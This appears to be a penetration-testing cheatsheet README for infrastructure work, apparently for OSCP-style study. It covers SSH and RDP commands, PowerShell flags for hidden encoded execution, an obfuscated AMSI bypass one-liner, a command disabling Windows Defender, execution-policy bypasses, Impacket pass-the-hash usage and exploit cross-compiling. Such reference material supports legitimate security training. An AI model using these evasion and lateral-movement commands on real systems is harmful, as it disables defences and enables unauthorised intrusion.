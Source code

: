 # Infrastructure cheatsheet

## Index
* [General](#General)
   * [Buffer overflow](bufferoverflow.md)
   * [Metasploit](metasploit.md)
* [Enumeration](enumeration.md)
* [Exploitation](exploitation.md)
* [Privilege Escalation Windows](privesc_windows.md)
* [Privilege Escalation Linux](privesc_linux.md)
* [Pivoting](pivoting.md)

# General
## Other great cheatsheets
- https://github.com/CountablyInfinite/oscp_cheatsheet
- https://github.com/frizb/MSF-Venom-Cheatsheet/blob/master/README.md

#### Static binaries
- https://github.com/andrew-d/static-binaries
- https://github.com/ernw/static-toolbox/releases

#### Python error
When receiving the error “/usr/bin/env: ‘python\r’: No such file or directory when running an python exploit.
1.	Open the python file in vim
2.	Use the command ```:set ff=unix```
3.	Save the file. ```:wq```

#### SSH key files
ssh key files needs to be permission 600
```
sudo chmod 600 <FILE>
```

#### SSH allow diffie helman
```
ssh <USER>@<TARGET> -oKexAlgorithms=+diffie-hellman-group1-sha1
```

#### RDP commands
```
xfreerdp /d:<DOMAIN> /u:<USERNAME> /v:<TARGET IP> +clipboard
rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD>
```

#### Autorecon
https://github.com/DriftSec/AutoRecon-OSCP
```
sudo /home/user/.local/bin/autorecon -o autorecon <HOST> <HOST>
```

## CMD
#### Find string
```
| findstr /I “<FIND STRING>”
```

#### Ignore string
```
| findstr /v “<IGNORE STRING>” 
```

## Powershell
#### Powershell flags
- ```-nop```: (```-noprofile```) which instructs powershell not to load the powershell user profile.
-	```-w hidden```: to avoid creating a window on the user’s desktop
-	```-e```: (```-EncodedCommand```) use base64 encoding

#### Start as admin
```
powershell.exe Start-Process cmd.exe -Verb runAs
```

#### AMSI Bypass
```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

#### Disbale AV (Requires local admin)
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

### Powershell execution policy
#### Get execution policy
```
Get-ExecutionPolicy -Scope CurrentUser
```

#### Bypass execution policy flag
```
-ExecutionPolicy Bypass
```

#### Disable execution policy
```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

#### Impacket PSexec impacket
If no LM Hash use an empty one: ```aad3b435b51404eeaad3b435b51404ee```
```
python3 psexec.py -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME>@<TARGET>
python3 psexec.py <DOMAIN>/<USERNAME>:<PASSWORD>@<TARGET>
```

## Compiling
#### Compile on linux
```
gcc
```

#### Cross compile exploit code
```
sudo apt install mingw-64
```

#### Compile 32bit Windows
```
i686-w64-mingw32-gcc something.c -o something.exe
```

#### Compile 64bit Windows
```
x86_64-w64-mingw32-gcc something.c -o something.exe
```

#### Compile 32 bit Linux
```
gcc -Wall -o exploit X.c -Wl,--hash-style=both -m32
```
